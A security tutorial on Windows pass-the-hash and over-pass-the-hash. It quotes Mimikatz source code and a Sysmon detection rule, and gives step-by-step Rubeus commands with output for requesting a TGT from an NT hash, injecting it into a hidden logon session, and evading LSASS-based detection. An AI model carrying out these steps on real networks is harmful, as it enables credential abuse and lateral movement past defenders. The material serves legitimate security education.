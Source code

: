 ## Introduction

In the realm of cybersecurity, **pass-the-hash** attacks have become a potent weapon for attackers. By leveraging password hashes, adversaries can bypass the need for plaintext passwords and gain unauthorized access to systems. In this tutorial, we’ll explore the mechanics of pass-the-hash attacks, from understanding hash structures to practical exploitation techniques. Buckle up as we delve into the dark corners of authentication security.

> The **Pass-The-Hash** technique is an essential foundation of lateral movement on Windows. It allows you to assign the rights associated with a user based solely on their NT hash. However, this technique, which is commonly used by **Mimikatz**, is easily detectable. Besides, it requires requesting Local Administrator rights to write to the **LSASS.exe** process.

In this article, we will briefly see how Pass-The-Hash works, and then analyze how Mimikatz's PTH (Pass-The-Hash) module works. Finally, we will see a technique offering better OPSec (Operation Security) and not requiring Local Administrator rights.

* * *

## Pass The Hash - Overview

PTH is a technique exploiting the operation of the NTLMv1/v2 protocols to authenticate to a remote resource without using the user's plain text password. First, let's see the basic operation of the NTLM protocol:

- First, the client will request a "negotiation" (type 1 message) to agree with the server on the supported functions.
- The server sends back a "challenge" (type 2 message), which is a random value generated on each request.
- The client returns the "response" of the challenge (type 3 message). This is quite simply the encryption of the challenge using the NT hash as the encryption key.

This is when the server will verify the challenge. Either by reproducing it with the client's NT hash in the SAM database if it is a local account or by sending the challenge back to the domain controller if it is a domain account.

What must be understood here is that the user's plain text password never comes into account. Only its hash is useful! It is therefore easy for an attacker who only has the hash of an account to authenticate with domain resources. However, this technique has limits depending on the User Access Control (UAC) policies configured in the system.

* * *

## Mimikatz and PTH

[Mimikatz](https://github.com/gentilkiwi/mimikatz) it's now well known to extract plaintexts passwords, hash, PIN code, and Kerberos tickets from memory. Mimikatz can also perform pass-the-hash, pass-the-ticket, or build Golden tickets.

Several tools propose the use of PTH during authentication but the operations differ. Even if NTLM does not take into account the plain text password, Windows is not designed to let the user directly enter his NT hash as an authentication method, it is, therefore necessary to adapt to allow this operation to be done.

This is what **impacket** does for example. This Python library provides very low-level access to Windows packages. This allows in particular, to rewrite challenge/response packets directly based on the hash given as input. Thus, the re-implementation of the SMB stack makes it possible to dispense with the use of the plain text password and to pass the hash directly to the targeted machine. Mimikatz and its `sekurlsa::pth` command took another approach rewriting hashes in memory. Here is the piece of code used by this tool:

```html
if(kull_m_process_create(KULL_M_PROCESS_CREATE_LOGON, szRun, CREATE_SUSPENDED, NULL, LOGON_NETCREDENTIALS_ONLY, szUser, szDomain, L"", &processInfos, FALSE))
{
    kprintf(L" | PID %u\n | TID %u\n",processInfos.dwProcessId, processInfos.dwThreadId);
    if(OpenProcessToken(processInfos.hProcess, TOKEN_READ | (isImpersonate ? TOKEN_DUPLICATE : 0), &hToken))
    {
           if(GetTokenInformation(hToken, TokenStatistics, &tokenStats, sizeof(tokenStats), &dwNeededSize))
           {
               kuhl_m_sekurlsa_pth_luid(&data);
```

We quickly understand that Mimikatz will create a new process then write in the "Logon Session" associated with the token via the `kuhl_m_sekurlsa_pth_luid` function. This implies two things:

- Mimikatz will write to the `LSASS.exe` process, so you must be a local administrator of the machine.
- An OpenProcess will be performed on `LSASS.exe`, the access rights requested by Mimikatz are very specific and will raise an alert if detection rules are properly configured.

```html
<Rule groupRelation="and">
    <TargetImage name="technique_id=T1003,technique_name=Credential Dumping" condition="is">C:\Windows\system32\lsass.exe</TargetImage>
    <GrantedAccess>0x1FFFFF</GrantedAccess>
</Rule>
```

* * *

## Over-Pass-The-Hash and Rubeus

As we have seen, the Mimikatz technique has limitations as well as poor OPSec. Let's see what solutions can bring us to an equivalent result while avoiding the limitations of Mimikatz.

[Rubeus](https://github.com/GhostPack/Rubeus) is a `C#` toolset for raw Kerberos interaction and abuses. This project offers a multitude of features such as kerberoast, asreproast, s4u, and much more. Here, we will use several of these features to perform an OPTH (Over-Pass-The-Hash).

The OPTH is a revisit of the classic PTH where we use the obtained NT hash to request a ticket of type TGT to the domain controller to then inject it into a process. Thus, we are going to free ourselves from the NTLM protocol which is now less used in favor of Kerberos and we will also free ourselves from the rewrite of `LSASS.exe`. This makes a better OPSec possible and does not require us to be Local Administrator.

Let us now see in practice the realization of this technique with Rubeus. First, we will request a TGT ticket from the domain controller using the `asktgt` command:

```html
C:\Rubeus>Rubeus.exe asktgt /user:<redacted> /rc4:<redacted>

[*] Action: Ask TGT

[*] Using rc4_hmac hash: <redacted>
[*] Building AS-REQ (w/ preauth) for: 'domain\<redacted>'
[+] TGT request successful!
[*] base64(ticket.kirbi):

doIFXDCCB[…]WMuaW8=

[*] Action: Describe Ticket

  UserName      :  <redacted>
  UserRealm     :  <redacted>
  ServiceName   :  krbtgt/<redacted>
  ServiceRealm  :  <redacted>
  StartTime     :  24/05/2020 16:18:45
  EndTime       :  25/05/2020 02:18:45
  RenewTill     :  04/06/2020 16:18:45
  Flags         :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType       :  rc4_hmac
  Base64(key)   :  k++fpN2g7xZn8bjbdD+xQg==
```

Our ticket is simply the string converted into base64. We must now remove the line breaks to have the base64 in the form of a character string. Another important detail, a "Logon Session" can only accommodate one TGT ticket. If we injected our TGT ticket into an existing "Logon Session", we will encounter some problems. To remedy this, we can use the `createnetonly` feature which allows us to create a hidden process with `SECURITY_LOGON_TYPE 9`. This technique will allow us to inject our ticket into complete security and serenity.

```html
C:\Rubeus>Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe"

 ______        _
(_____ \      | |
 _____) )_   _| |__  _____ _   _  ___
|  __  /| | | |  _ \| ___ | | | |/___)
| |  \ \| |_| | |_) ) ____| |_| |___ |
|_|   |_|____/|____/|_____)____/(___/

v1.3.3


[*] Action: Create Process (/netonly)

[*] Showing process : False
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 9936
[+] LUID            : 0x4a0717f
```

Obviously, this command generates an event id type 1 "Process Created". It is now possible to pass our ticket in this "Logon Session" via the Rubeus `ptt` command:

```html
C:\Rubeus>Rubeus.exe ptt /ticket:<ticket en base64> /luid:0x4a0717f

[*] Action: Import Ticket
[+] Ticket successfully imported!
```

At this point, we can check the presence of our ticket in this process using the Rubeus `triage` command:

```html
----------------------------------------------------------------------------------
| LUID      | UserName               | Service              | EndTime            |
----------------------------------------------------------------------------------
| 0x4a0717f | redacted @ redacted    | krbtgt/redacted      | 25/05/2020 02:18:45|
----------------------------------------------------------------------------------
```

Perfect! This process is now linked to a "Logon Session" containing the TGT ticket requested using the user's NT hash. If we migrate in this process via the `inject` command from **Cobalt Strike** or `migrate` from **Meterpreter**, we will have the rights associated with the spoofed user. Note that we have not opened the `LSASS.exe` process since the Rubeus PTT is done as follows:

```html
if(arguments.ContainsKey("/ticket"))
{
    string kirbi64 = arguments["/ticket"];
    if(Helpers.IsBase64String(kirbi64))
    {
        byte[] kirbiBytes = Convert.FromBase64String(kirbi64);
        LSA.ImportTicket(kirbiBytes, luid);
```

The `ImportTicket` function is based on the `LsaCallAuthenticationPackage` function:

```html
var inputBufferSize = Marshal.SizeOf(typeof(Interop.KERB_SUBMIT_TKT_REQUEST)) + ticket.Length;
inputBuffer = Marshal.AllocHGlobal(inputBufferSize);
Marshal.StructureToPtr(request, inputBuffer, false);
Marshal.Copy(ticket, 0, new IntPtr(inputBuffer.ToInt64() + request.KerbCredOffset), ticket.Length);
ntstatus = Interop.LsaCallAuthenticationPackage(LsaHandle, AuthenticationPackage, inputBuffer, inputBufferSize, out ProtocolReturnBuffer, out ReturnBufferLength, out ProtocalStatus);
```

Thus, no capricious "patch" was made on LSASS.exe which allows us to keep better OPSec.

* * *

## Conclusion

In summary, pass-the-hash attacks pose a significant threat to system security. As defenders, it’s crucial to stay informed about these techniques and implement robust measures to prevent them. Remember that protecting your organization’s credentials is not just about passwords; it’s about safeguarding the very keys to your digital kingdom.